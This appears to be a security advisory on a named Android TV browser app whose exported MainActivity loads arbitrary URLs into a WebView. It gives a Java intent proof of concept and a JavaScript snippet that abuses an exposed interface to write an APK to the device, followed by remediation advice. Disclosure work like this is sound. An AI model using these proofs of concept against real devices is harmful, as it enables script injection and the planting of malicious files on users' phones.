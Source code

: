 

---

### Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

#### Overview:
The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

#### Affected Component:
- Component: `com.altamirano.fabricio.tvbrowser.MainActivity`

#### Code Injection Details:
An attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URL containing malicious JavaScript is passed to the WebView, the code is executed within the app's context.

**Proof of Concept (Code Injection):**
```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
intent.setData(Uri.parse("maliciouswebsite.com"));
startActivity(intent);
```

---

#### Arbitrary File Creation via JavaScript Interface Exposure:
The `MainActivity`'s WebView exposes certain JavaScript interfaces to web content. This exposes the app to arbitrary file creation vulnerabilities.

**Proof of Concept (Arbitrary File Creation):**
```javascript
document.getElementById("fetchAndDownloadAPKButton").addEventListener("click", function() {
    fetchAndDownloadAPKData();
});

function fetchAndDownloadAPKData() {
    fetch('/base64.txt')
        .then(response => response.text())
        .then(data => {
            let base64data = "data:application/octet-stream;base64," + data.trim();
            let filename = "fetched_file.apk"; 

            if (window.Android && typeof window.Android.getBase64FromBlobData === "function") {
                window.Android.getBase64FromBlobData(base64data, filename);
            } else {
                alert("Android interface not available for download");
            }
        })
        .catch(error => {
            console.error("There was an error fetching the data:", error);
            alert("Error fetching base64 data.");
        });
}
```

---

#### Recommendations:
1. **Limit WebView Exposure:** Remove the exported status of activities containing a WebView or restrict them using intent filters.
2. **Validate URLs:** Ensure that URLs loaded in a WebView are validated and sanitized.
3. **Use JavaScript Safely:** Limit JavaScript access within the WebView. If required, only whitelist trusted scripts and sources.
4. **Restrict File Operations:** Ensure the exposed JavaScript interfaces don't grant unintended file permissions or access.

#### References:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-23: Relative Path Traversal](https://cwe.mitre.org/data/definitions/23.html)

---
